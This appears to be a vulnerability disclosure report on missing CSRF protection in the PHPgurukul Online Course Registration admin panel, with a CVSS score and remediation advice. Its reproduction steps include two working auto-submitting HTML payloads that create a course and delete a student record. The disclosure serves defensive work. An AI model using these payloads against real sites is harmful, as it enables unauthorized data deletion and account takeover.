



# Missing CSRF protection

## Potential Impact: Medium

## Description:

The PHPgurukul  Online Course Registration application lacks Cross-Site Request Forgery (CSRF) protection on all administrative forms. An attacker can perform unauthorized actions on behalf of authenticated administrators by tricking them into visiting a malicious webpage.

## Affected URLs:

`/onlinecourse/admin/course.php` 

`/onlinecourse/admin/course.php?del=delete&id=X`

`/onlinecourse/admin/manage-students.php?del=delete&id=X`
`/onlinecourse/admin/manage-students.php?pass=update&id=X` 

## CVSS SCORE:

CVSS Base Score : 6.5

Reference Link:

[https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N&version=3.1](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N&version=3.1) 

## Business Risk:

Financial losses, operational disruption, reputation damage, compliance violations.

## Techincal Risk:

An attacker can create or delete courses, delete student records causing permanent data loss, reset student passwords leading to account takeover, and register unauthorized student accounts, compromising data integrity and system security.

## Steps to Reproduce:

1. Login as Admin and visit [`http://localhost:8080/onlinecourse/admin/course.php`](http://localhost:8080/onlinecourse/admin/course.php) 



1. Now save the below malicious payload as HTML page (e.g csrf_attack.html)

```html
 <!DOCTYPE html>
<html>
<body>
    <form id="csrf-form" action="http://localhost:8080/onlinecourse/admin/course.php" method="POST">
        <input type="hidden" name="coursecode" value="HACKED">
        <input type="hidden" name="coursename" value="CSRF Attack Course">
        <input type="hidden" name="courseunit" value="1">
        <input type="hidden" name="seatlimit" value="999">
        <input type="hidden" name="submit" value="Submit">
    </form>
    <script>
        setTimeout(function() {
            var form = document.getElementById('csrf-form');
            HTMLFormElement.prototype.submit.call(form);
        }, 2000);
    </script>
</body>
</html>
```

1. Open the exploit file(csrf_attack.html) in the same browser (new tab or window)



I hosted the exploit and visited from same browser.

1. Visit  [`http://localhost:8080/onlinecourse/admin/course.php`](http://localhost:8080/onlinecourse/admin/course.php) ,new course has been created successfully without admin’s knowledge


### Student deletion :

1. Visit  [`http://localhost:8080/onlinecourse/admin/manage-student.php`](http://localhost:8080/onlinecourse/admin/course.php)


1. Save the below malicious payload as HTML page (e.g csrf_attack2.html)

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Attack - Student Deletion</title>
</head>
<body>
    <h1>CSRF Attack - Student Deletion</h1>
    <p>This will delete student with registration number: 10806121</p>
    
    <form id="csrf-form" action="http://localhost:8080/onlinecourse/admin/manage-students.php" method="GET">
        <input type="hidden" name="id" value="10806121">
        <input type="hidden" name="del" value="delete">
    </form>
    
    <script>
        // Auto-submit after 2 seconds
        setTimeout(function() {
            var form = document.getElementById('csrf-form');
            HTMLFormElement.prototype.submit.call(form);
        }, 2000);
    </script>
</body>
</html>

```

3.Open the exploit file(csrf_attack2.html) in the same browser (new tab or window). I hosted the exploit and visited from same browser.


by knowing the reg no. of student , attacker can delete the student records using unauthorized privilege from admin .

1. Visit [`http://localhost:8080/onlinecourse/admin/manage-student.php`](http://localhost:8080/onlinecourse/admin/course.php) , the target student record has been deleted



Similary , this vulnerbaility present in the all **state-changing endpoints** that are accessible by admin.

## Remediation:

1. **Implement CSRF Tokens:**
    
    ```php
    <?php
    //generate token
    if (empty($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
    }
    
    // Include in form
    <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
    
    // Validate on submission
    if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
        die('CSRF token validation failed');
    }
    ?>
    ```
    
2. **Use SameSite Cookie Attribute:**
    
    prevent CSRF by blocking session cookies from being sent with cross-site requests, so malicious sites cannot perform authenticated actions on behalf of users.
    
    ```php
    session_set_cookie_params([
        'samesite' => 'Strict',
        'secure' => true,
        'httponly' => true
    ]);
    ```
    
3. Double Submit Cookie Pattern:
    
    send token in both cookie + request body. 
    
    If they match → legitimate request
    
    If they don't match → CSRF attack (reject)
